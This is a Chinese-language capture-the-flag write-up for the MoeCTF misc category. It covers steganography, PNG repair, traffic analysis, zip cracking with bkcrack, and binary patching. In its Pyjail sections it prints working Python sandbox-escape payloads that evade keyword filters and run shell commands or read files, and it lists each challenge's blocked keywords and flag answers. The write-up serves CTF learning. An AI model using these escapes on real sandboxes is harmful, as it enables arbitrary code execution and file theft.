





# Misc-**安全杂项**

> 工具大赛罢了

## 环境配置

* **操作系统**：`Windows 11`/`Ubuntu 22.04 LTS`
* **代码环境**：`python`
* **乱七八糟的工具，写一题找一个**

## Misc入门指北

> 欢迎来到misc的世界^ _ ^

打开PDF，查找``moectf``，复制隐藏的flag提交即可**（注意拉到底）**。

```
moectf{We1c0m3_7o_tH3_w0R1d_0f_m1sc3111aN3ous!!}
```

## Rush

> “冲刺，冲刺！”你正走在路上，耳边传来这样的声音，还没反应过来，就被撞倒了。
>
> 你费劲地爬起来，好像看到了什么信息，回过神来那人早已扬长而去，那我缺的这个道歉这块？

拿到gif发现二维码，截图。


用``CQR``打开直接发现了隐藏``flag``。

```
moectf{QR_C0d3s_feATUR3_eRror_c0RRECt10N}
```

## ez_LSB

> 这是一张普通的图片，但是一个个像素看过去似乎有些蹊跷？

题目已经告诉我们是图片LSB隐写，我们用zsteg检测下，但`flag`形式没有意义。

```bash
dzc@dzc-virtual-machine:~/zsteg$ zsteg xidian.png
b1,r,lsb,xy         .. text: "The flag is: bW9lY3Rme0xTQl8xc19zMF8xbnQzcmVzdDFuZyEhc2o5d2R9"
b1,rgb,lsb,xy       .. file: TeX font metric data (\002H \002)
b1,rgba,msb,xy      .. file: OpenPGP Public Key
b2,bgr,msb,xy       .. file: Applesoft BASIC program data, first line number 128
b3,bgr,msb,xy       .. file: Lotus unknown worksheet or configuration, revision 0x8
b4,r,lsb,xy         .. file: Targa image data - Map (256-4112) 4096 x 65536 x 1 +4097 +257 - right "\001\020\001\020\021"
b4,bgr,lsb,xy       .. file: Targa image data - Map 65536 x 1 x 16 +1
```

我们用``cyberchef``尝试``base64``解码得到``flag``。

```
moectf{LSB_1s_s0_1nt3rest1ng!!sj9wd}
```

## ez_锟斤拷????

> E=hv在记事本里写下了一些神秘字符，
>
> 但是经过一通保存另存为的迷之操作之后文本文件里的东西全变成了乱码

拿到了`flag.txt`文件，`UTF-8`错误由`GBK`解码所致，需要对此乱码（锟斤拷）进行处理。

```python
garbled_text = "锝嶏綇锝咃絻锝旓絾锝涳讥锝庯迹锛愶絼锛戯綁锝庯絿锛匡絿锝傦极锛匡紶锝庯激锛匡嫉锝旓絾锛匡紭锛匡紤锝擄伎锛旓綍锝庯紒锛侊絽锝楋綏锝楋綏锝濇伃鍠滀綘寰楀埌寮楁媺鏍煎悗闈㈠叏鏄敓鏂ゆ嫹閿熸枻鎷烽敓鏂ゆ嫹"
# 1.用 GBK 编码
gbk_bytes = garbled_text.encode('gbk', errors='replace') # 替换无法编码的字符
# 2.用 UTF-8 解码
original_text = gbk_bytes.decode('utf-8', errors='ignore')
# 3.转成半角
import unicodedata
def full_to_half(text):
    return ''.join(
        unicodedata.normalize('NFKC', char)  # NFKC 标准化转换全角→半角
        for char in text
    )
flag = full_to_half(original_text)
print(flag) 
```

得到了输出

```
moectf{EnC0d1ing_gbK_@nD_Utf_8_1s_4un!!ewwww}恭喜你得到弗拉格后面全?斤拷锟斤拷锟斤拷
```

不知道何意味。取前面的`flag`部分提交即可。

## weird_photo

> FLAG就在图中。什么，你说你看不见 FLAG？注意 CRC！

提示图片的CRC校验值可能有误，我们用``pngcheck``检查下。

```bash
pngcheck -v photo.png 
File: photo.png (829531 bytes)
  chunk IHDR at offset 0x0000c, length 13
    900 x 490 image, 24-bit RGB, non-interlaced 
  CRC error in chunk IHDR (computed d34d176f, expected b5a7bf8c)
ERRORS DETECTED in photo.png
```

然后根据西电同学的经验，这个塔楼拍的不太完整，感觉是图片尺寸改掉了？我们用``010 Editor``编辑下。



搜索``b5a7bf8c``的位置，改成``d34d176f``（位置就在IHDR块数据开始的地方）。尺寸``384``和`` 1EA``用十六进制计算就是``900``和``490``，我们把高度``1EA``也改成``384``看看能不能显示`flag`。


```
moectf{Image_Height_Restored}
```

## SSTV

> 识别并解码附件中使用的特殊通信协议，以获取隐藏信息。

已经提示了我们``SSTV``编码，我们使用``RX-SSTV``工具，配置虚拟声卡，播放sstv.wav即可。



```
moectf{d3codiNG_SStV-reQu1REs-PATI3nC3}
```

## encrypted_pdf

> I am so forgetful...
> So I will use a password that is simple enough.

加密的PDF，密码足够简单，爆破即可，我用的是在线网站``I Love PDF``。

解密后打开PDF，隐藏方式和入门指北一样，查找``moectf``。

```
moectf{Pdf_1s_r3a1ly_c0lor4ul!!ihdw}
```


**啊啊啊啊啊啊啊啊啊啊啊SEC娘宝宝可爱捏~**

## 捂住一只耳

> 一只手捂住耳朵 另一只手打开音乐 似乎听到了不一样的声音

明显在暗示单声道与立体声，我们用``Audacity``工具观察并且分离出上方的声道。



像是有规律的声音，听了一下好像是`moise`密码，我们用在线网站解码一下就得到`flag`。

```
moectf{HALF_RADIO_IN_XDU}
```

**我已经很久没有听到过半部电台的故事了...**

## Enchantment

> 哇多么好的附魔啊
>
> 你把图片发了出去，但似乎附魔台上的文字有一些不对劲？

得到了一个``pngpca``文件，我们用``wireshark``作流量分析。

用``http``过滤，发现了``post``方法上传的``enchantment.png``文件，我们导出分组字节流保存文件为``png``格式。



这是``minecraft``里的附魔台文字，我们去网上找一下换算图，一个个对过来就得到`flag`。

```
moectf{now_you_have_mastered_enchanting}
```

## WebRepo

> 这都是什么稀奇古怪的格式！？

直译一下是“网络上的仓库”，但是得到了一个`webp`文件，好一个一语双关。

扫描二维码告诉我们用``binwalk``，检查了一下发现是`.rar`文件，解压出发现了隐藏的`.git`文件夹，和题目对上了，是个仓库（太对了，真是`WebRepo`），`flag`一定藏在提交信息中。

在该目录下打开终端输入``git show``，得到`flag`。

```
moectf{B1NwA1K_ANd_g1t_R3seT-MaG1C}
```

## ez_ssl

> zero6six 在网页内上传了一份秘密文件。望着浏览器提示的“连接安全，信息不会外泄”，他觉得万无一失。
>
> 但与此同时，他的浏览器却悄悄上传了另一份文件。现在把他电脑的抓包记录给你，你能破解他的秘密吗？

得到了一个``pngpca``文件，我们用``wireshark``工具作流量分析。题目提示有“秘密文件”和“另一份文件”，我们应该要把两个都找到。

`http`过滤查看``post``方法上传的文件，发现是``ssl.log``日志文件；而``html``文件显示进行了文件上传操作。

查了一下和``TLS``有关，配置`ssl.log`文件后发现了`http`过滤后的信息变多，有一个`zip`文件，我们把文件导出，发现里面存在`flag.txt`。

然！后！我就一直以为`ssl.log`或者其他地方藏了密码，用各种方式去试都不行......最后发现压缩包写了密码是`7`位纯数字。用工具`ARCHPR`直接爆破。

得到密码：`6921682`，解压压缩包得到`Ook`编码，找个在线网站解码一下得到`flag`。

```
moectf{upI0@d-l0G_TO-DeCrYPT_uploAD}
```

## ez_png

> 这张平平无奇的图片里藏着一个小秘密。秘密不在颜色中，而在文件的骨骼里。注意：某些数据段的长短似乎不太协调。

对于图片结构，我们可以使用工具``pngcheck``。

```
File: ez_png.png (899069 bytes)
  chunk IHDR at offset 0x0000c, length 13
    900 x 600 image, 24-bit RGB, non-interlaced
  chunk pHYs at offset 0x00025, length 9: 2835x2835 pixels/meter (72 dpi)
  chunk IDAT at offset 0x0003a, length 65524
    zlib: deflated, 32K window, default compression
  chunk IDAT at offset 0x1003a, length 65524
  chunk IDAT at offset 0x2003a, length 65524
  chunk IDAT at offset 0x3003a, length 65524
  chunk IDAT at offset 0x4003a, length 65524
  chunk IDAT at offset 0x5003a, length 65524
  chunk IDAT at offset 0x6003a, length 65524
  chunk IDAT at offset 0x7003a, length 65524
  chunk IDAT at offset 0x8003a, length 65524
  chunk IDAT at offset 0x9003a, length 65524
  chunk IDAT at offset 0xa003a, length 65524
  chunk IDAT at offset 0xb003a, length 65524
  chunk IDAT at offset 0xc003a, length 65524
  chunk IDAT at offset 0xd003a, length 46973
  chunk IDAT at offset 0xdb7c3, length 38
  chunk IEND at offset 0xdb7f5, length 0
No errors detected in ez_png.png (18 chunks, 44.5% compression).
```

发现有数据块不正常，用`binwalk`检查一下，直接拆出来了`zlib`文件，点开就得到了`flag`。

```
moectf{h1DdEn_P4YlOaD_IN-Id4T}
```

## 万里挑一

> 要想冲破封锁，寻得真谛，须从万把钥匙中找出唯一的答案

递归解压脚本，并把所有密码写入`txt`（最后手动处理一下多余的提示）。

```python
import zipfile
import tempfile
import os

def extract_zips(zip_path, output_file):
    with tempfile.TemporaryDirectory() as temp_dir:
        with zipfile.ZipFile(zip_path, 'r') as zip_ref:
            zip_ref.extractall(temp_dir)
            for item in os.listdir(temp_dir):
                item_path = os.path.join(temp_dir, item)
                if item.endswith('.txt'):
                    with open(item_path, 'r', encoding='utf-8', errors='ignore') as f:
                        content = f.read().strip()
                        with open(output_file, 'a', encoding='utf-8') as out_f:
                            out_f.write(content + '\n')
                elif item.endswith('.zip'):
                    extract_zips(item_path, output_file)

def main():
    zip_path = "password.zip"
    output_file = "dic.txt"
    extract_zips(zip_path, output_file)

if __name__ == "__main__":
    main()
```

然后用``ARCHPR``字典爆破，成功解压。

```
a296a5ec1385f394e8cb
```

发现`明文.exe`和`flag.txt`，联想到``bkcrack``明文攻击（[Bugku CTF：请攻击这个压缩包[WriteUP]-CSDN博客](https://blog.csdn.net/qq_43007452/article/details/135607308)）

```bash
echo "4d5a90000300000004000000ffff" | xxd -r -p > plain.bin
bkcrack -C flag.zip -c "明文.exe" -p plain.bin # 得到key1 key2 key3
bkcrack -C flag.zip -k eec878a3 6808e48f 3aa41bd8 -U new_flag.zip 123456 # 用新密码解密
```

```
moectf{Y0u_h4v3_cho5en_7h3_r1ght_z1pf1le!!uysdgfsad}
```

## Encrypted_Volume

> 找到钥匙，解开加密卷！

用`01editor`打开，在最后一个文件块中找到了`PNG`，保留这一部分发现二维码，扫描找到密钥。

```
:@(s<"A3F:89x541Ux[<
```

用`veracrypt`挂载`Volume`文件，得到了`brainfuck`加密文件，解密一下即可。

```
moectf{nOW_YoU-h4V3_UNlocKED-VOlumE}
```

## 哈基米难没露躲

> 出题人哈基米音乐听多了(bushi

看了半天，符号和词都有规律，`100pts`不至于自己解吧？我去网上搜了搜哈基米加密，还真有。

简直就是世界上最优美的加密啊。

https://lhlnb.top/hajimi/base64



提示隐写，发现有零宽字符，需要再解密。https://330k.github.io/misc_tools/unicode_steganography.html

```
moectf{1b8956b9-a423-4101-a1bd-65be33682c82}
```

## 2048_master

>大家都是2048高手吧，出题人准备了一点小礼物哦，玩玩游戏就能拿到flag^ _ ^

游戏玩了下玩不出来，所以我选择`reverse`。

思路：找到比较 `> 13` 的指令并修改成`> 1`。

```
cmp eax, 0Dh # 改成01h
```

`IDA`中的操作是：1.修改：`Edit` → `Patch program` → `Assemble`，2.保存：`Edit` → `Patch program` → `Apply patches to input file`。运行修改后的`.exe`后就得到了`flag`。

```
moectf{Y0u_4re_a_2048_m4st3r!!!!r0erowhu}
```

## Pyjail 0

> A simple reader ~~(所以严格来说这题不算 Pyjail)~~
>
> 关于验证码，示例：Please enter the reverse of 'GZUUAOIS' to continue: SIOAUUZG
>
> 至于 flag 的位置？你可以参考 Web 第十二章（

`Pyjail`沙箱逃逸笔记：https://xz.aliyun.com/news/12093

想起了那个把我恶心坏的`web`第十二章了，在虚拟环境里。

文件路径：``/proc/self/environ``。

接下来我都在`windows`上用`netcat`连接，格式为``netcat localhost <port>``。

此题输入反转字符串和文件地址即得到：

```
moectf{07a71386-d189-c798-f194-04229b0b07e7}
```

## Pyjail 1

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return
    
    result = eval(user_input)
```

我们可以用**字节数组或字符编码**来构造字符串，避免直接写`import`，想要执行如下代码我们可以改写：

```python
getattr(globals()['__builtins__'], '__import__')('os').system('cat /tmp/flag.txt')

getattr(globals()['__builtins__'], bytes([95, 95, 105, 109, 112, 111, 114, 116, 95, 95]).decode())('os').system('cat /tmp/flag.txt')
```

```
moectf{77553abb-2b7a-2c71-1870-4c41d9778a64}
```

## Pyjail 2

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return
    
    # 过滤特殊字符
    forbidden_chars = ['.', '_', '[', ']', "'", '"']
    for char in forbidden_chars:
        if char in user_input:
            print(f"Forbidden character detected: {char}")
            return

    result = eval(user_input)
```

**1. 使用`chr()`编码绕过字符过滤**

所有被禁止的字符（如`_`）和关键字都用`chr(ASCII码)`表示。

**2. 使用`getattr()`进行属性访问**

由于`.`被禁止，使用`getattr(object, attribute)`来访问属性。

**3. 使用`globals()`和`__getitem__()`访问字典**

由于`[]`被禁止，使用：`dict[key]` → `dict.__getitem__(key)` → `getattr(dict, '__getitem__')(key)`。

```
__import__('os').system('cat /tmp/flag.txt')

getattr(
    getattr(
        getattr(
            getattr(
                globals(),
                '__getitem__'
            )('__builtins__'),
            '__dict__',
            getattr(
                globals(),
                '__getitem__'
            )('__builtins__')
        ),
        '__getitem__'
    )('__import__')('os'),
    'system'
)('cat /tmp/flag.txt')

getattr(getattr(getattr(getattr(globals(), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)), chr(95)+chr(95)+chr(100)+chr(105)+chr(99)+chr(116)+chr(95)+chr(95), getattr(globals(), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95))), chr(95)+chr(95)+chr(103)+chr(101)+chr(116)+chr(105)+chr(116)+chr(101)+chr(109)+chr(95)+chr(95))(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))(chr(111)+chr(115)), chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))(chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(116)+chr(109)+chr(112)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116))
```

```
moectf{59042fef-1e84-9185-fcbc-50168d5e02ba}
```

## Pyjail 3

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")
        
    try:
        result = eval(user_input, {"__builtins__": None}, {})
        # Hint: When __builtins__ is None, you need to be more creative...
        print("Code executed successfully!")
        if result is not None:
            print(f"Return value: {result}")
    except Exception as e:
        print(f"Execution error: {type(e).__name__}: {e}")
```

即使 `__builtins__` 被禁用，仍然可以通过**对象继承链**或**现有类的属性**来重新获取内置函数。例如：

- 通过元类（如 `().__class__.__mro__`）找到基类（如 `object`）。
- 遍历子类（如 `__subclasses__()`）来寻找可用的类（如 `os._wrap_close`、`ModuleSpec` 等）。
- 通过这些类的 `__init__.__globals__` 或 `__builtins__` 属性重新获取内置函数。

```
([c for c in ().__class__.__mro__[-1].__subclasses__() if c.__name__=='ModuleSpec'][0].__init__.__globals__['__builtins__']['open']('/tmp/flag.txt').read())
```

```
moectf{6486e9b8-47b8-0b5e-dead-8e554dd2a1b6}
```

## Pyjail4

> flag 位置在 /tmp 下

```python
import ast
import base64

# 自定义 AST 节点访问器来限制可用的语法结构
class RestrictedNodeVisitor(ast.NodeVisitor):
    forbidden_attrs = {
        "__class__", "__dict__", "__bases__", "__mro__", "__subclasses__",
        "__globals__", "__code__", "__closure__", "__func__", "__self__",
        "__module__", "__import__", "__builtins__", "__base__", "__init__", "__getattribute__"
    }
    def visit_Attribute(self, node):
        # 禁止危险属性访问
        if isinstance(node.attr, str) and node.attr in self.forbidden_attrs:
            raise RuntimeError(f"Access to attribute '{node.attr}' is forbidden!")
        self.generic_visit(node)

def chall():
    user_input = input("Give me your code after base64 encoding it: ")
    code = base64.b64decode(user_input).decode('utf-8')
    
    if not user_input:
        print("Empty input!")
        return
    
    try:
        # 使用 AST 解析和验证代码
        tree = ast.parse(code)
        visitor = RestrictedNodeVisitor()
        visitor.visit(tree)
        
        # 创建受限的执行环境
        safe_builtins = {
            "print": print,
            "filter": filter,
            "list": list,
            "len": len,
            "Exception": Exception
        }

        safe_globals = {"__builtins__": safe_builtins}
        
        # 执行用户代码
        exec(code, safe_globals, {})
        
        print("Code executed successfully!")
            
    except SyntaxError as e:
        print(f"Syntax Error: {e}")
    except RuntimeError as e:
        print(f"Runtime Error: {e}")
    except Exception as e:
        print(f"Execution Error: {type(e).__name__}: {e}")
```

**在Python中，栈帧（Stack Frame）是解释器用于管理函数调用的一种内部数据结构。每当一个函数被调用时，Python就会创建一个栈帧对象，其中包含了该函数执行所需的“上下文”，例如局部变量、传入的参数以及当前指令的位置（返回地址）。**

```python
import base64
code = """
try:
    raise Exception()
except Exception as e:
    frame = e.__traceback__.tb_frame.f_back
    builtins = frame.f_globals['__builtins__']
    print(builtins.open('/tmp/flag.txt').read())
"""

encoded = base64.b64encode(code.encode('utf-8')).decode('utf-8')
print(encoded)

dHJ5OgogICAgcmFpc2UgRXhjZXB0aW9uKCkKZXhjZXB0IEV4Y2VwdGlvbiBhcyBlOgogICAgZnJhbWUgPSBlLl9fdHJhY2ViYWNrX18udGJfZnJhbWUuZl9iYWNrCiAgICBidWlsdGlucyA9IGZyYW1lLmZfZ2xvYmFsc1snX19idWlsdGluc19fJ10KICAgIHByaW50KGJ1aWx0aW5zLm9wZW4oJy90bXAvZmxhZy50eHQnKS5yZWFkKCkp
```

```
moectf{8e6909e8-7b9b-1c08-3131-46859e6830d9}
```

## MoeCTF指导版

> 最近锤子太多了，都忙不过来了！！为了帮助大家更好地可以完成题目，fifker找到了一个好帮手...它可能有点...（？
>
> 耄耋：拿到flag的方法都告诉你了，你二朵隆吗？？（哈
>
> （这只是一个游戏，没有任何web知识点考察，也不需要任何web手段，千万不要使用，否则会影响游戏体验）
>
> （游戏加载需要一定时间）

查看源代码有助于做题。

**第一关**：精准投喂`25`个小鱼干，不然会触发`114514`

**第二关**：找信息即可`241410173`和`241410156`

**第三关**：文字游戏，密码分别是`password` 和`incorrect!`

**第四关**：复制发现隐藏的密钥`xbhiuebkjvs`

**第五关**：翻转后点击`flag`按钮凸了

```
moectf{11738832-155d-3f7a-cc6b-95da7459659d}
```

